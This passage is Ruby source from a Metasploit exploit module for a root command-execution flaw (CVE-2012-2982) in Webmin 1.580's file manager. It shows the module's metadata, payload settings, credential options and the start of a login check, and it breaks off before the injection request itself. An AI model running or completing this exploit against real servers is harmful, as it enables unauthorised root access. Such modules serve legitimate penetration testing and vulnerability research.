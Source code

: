 ```ruby
			'Description'    => %q{
					This module exploits an arbitrary command execution vulnerability in Webmin
				1.580. The vulnerability exists in the /file/show.cgi component and allows an
				authenticated user, with access to the File Manager Module, to execute arbitrary
				commands with root privileges. The module has been tested successfully with Webim
				1.580 over Ubuntu 10.04.
			},
			'Author'         => [
				'Unknown', # From American Information Security Group
				'juan vazquez' # Metasploit module
			],
			'License'        => MSF_LICENSE,
			'References'     =>
				[
					['OSVDB', '85248'],
					['BID', '55446'],
					['CVE', '2012-2982'],
					['URL', 'http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf'],
					['URL', 'https://github.com/webmin/webmin/commit/1f1411fe7404ec3ac03e803cfa7e01515e71a213']
				],
			'Privileged'     => true,
			'Payload'        =>
				{
					'DisableNops' => true,
					'Space'       => 512,
					'Compat'      =>
						{
							'PayloadType' => 'cmd',
							'RequiredCmd' => 'generic perl bash telnet',
						}
				},
			'Platform'       => 'unix',
			'Arch'           => ARCH_CMD,
			'Targets'        => [[ 'Webim 1.580', { }]],
			'DisclosureDate' => 'Sep 06 2012',
			'DefaultTarget'  => 0))

			register_options(
				[
					Opt::RPORT(10000),
					OptBool.new('SSL', [true, 'Use SSL', true]),
					OptString.new('USERNAME',  [true, 'Webmin Username']),
					OptString.new('PASSWORD',  [true, 'Webmin Password'])
				], self.class)
	end

	def check

		peer = "#{rhost}:#{rport}"

		print_status("#{peer} - Attempting to login...")

		data = "page=%2F&user=#{datastore['USERNAME']}&pass=#{datastore['PASSWORD']}"

		res = send_request_cgi(
			{
				'method'  => 'POST',
				'uri'     => "/session_login.cgi",
				'cookie'  => "testing=1",
				'data'    => data
			}, 25)

```